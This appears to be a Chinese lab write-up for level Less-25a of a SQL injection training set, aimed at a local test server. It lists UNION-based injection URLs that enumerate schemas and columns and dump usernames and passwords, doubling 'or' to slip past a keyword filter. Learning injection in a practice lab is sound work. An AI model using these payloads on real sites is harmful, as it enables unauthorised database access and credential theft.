

# Less-25a_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";

1. http://127.0.0.1/sqli/Less-25a/?id=1 页面显示正常
2. http://127.0.0.1/sqli/Less-25a/?id=1’ 此时页面发生显著变化，数据消失，说明存在注入，但是通过$sql语句得知，此处并没有将id值进行包裹
3. http://127.0.0.1/sqli/Less-25a/?id=-1 union select 1,2,3--+ 可以使用联合查询，当我们使用联合查询注入时：
4. http://127.0.0.1/sqli/Less-25a/?id=-1 union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata--+ 查到库
5. http://127.0.0.1/sqli/Less-25a/?id=-1 union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name=0x7573657273--+ 查到字段
6. http://127.0.0.1/sqli/Less-25a/?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,passwoorrd)) from security.users--+ 查到字段值